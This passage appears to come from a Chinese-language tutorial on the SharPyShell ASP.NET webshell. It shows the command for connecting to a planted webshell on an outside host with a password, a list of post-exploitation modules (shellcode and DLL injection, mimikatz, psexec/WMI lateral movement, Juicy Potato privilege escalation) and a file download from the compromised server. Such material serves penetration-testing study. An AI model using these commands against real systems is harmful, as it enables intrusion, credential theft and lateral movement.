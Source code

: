 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**连接Webshell：**

我们在成功连接这个Webshell后可以使用`?`查看所有功能模块，且支持使用`Tab`键补全模块名。

  

还有就是会在`C:\Windows\Temp\`下生成一个临时文件夹用于存放我们上传的文件，完成渗透工作后执行`exit`命令退出时也会自动删除这个临时文件夹。

```
python SharPyShell.py interact -u 'http://free.idcfengye.com:10430/sharpyshell.aspx' -p 'betasec'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**所有模块功能：**

```
 `#download               Download a file from the server`` #exec_cmd               Run a cmd.exe /c command on the server                                     `` #exec_ps                Run a powershell.exe -nop -noni -enc 'base64command' on the server         `` #inject_dll_reflective  Inject a reflective DLL in a new (or existing) process                     `` #inject_dll_srdi        Inject a generic DLL in a new (or existing) process                        `` #inject_shellcode       Inject shellcode in a new (or existing) process                            `` #invoke_ps_module       Run a ps1 script on the target server                                      `` #invoke_ps_module_as    Run a ps1 script on the target server as a specific user                   `` #lateral_psexec         Run psexec binary to move laterally                                        `` #lateral_wmi            Run builtin WMI command to move laterally                                  `` #mimikatz               Run an offline version of mimikatz directly in memory                      `` #net_portscan           Run a port scan using regular sockets, based (pretty) loosely on nmap      `` #privesc_juicy_potato   Launch InMem Juicy Potato attack trying to impersonate NT AUTHORITY\SYSTEM `` #privesc_powerup        Run Powerup module to assess all misconfiguration for privesc              `` #runas                  Run a cmd.exe /c command spawning a new process as a specific user         `` #runas_ps               Run a powershell.exe -enc spawning a new process as a specific user        `` #upload                 Upload a file to the server`
```

  

**0x05 SharPyShell模块**

#### #download

从服务器下载文件

```
`Usage：#download remote_input_path [local_output_path] [chunk_size]``C:\Windows\Temp> #download C:\ProgramData\MS16-032_x64.exe /tmp/MS16-032_x64.exe`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #exec_cmd

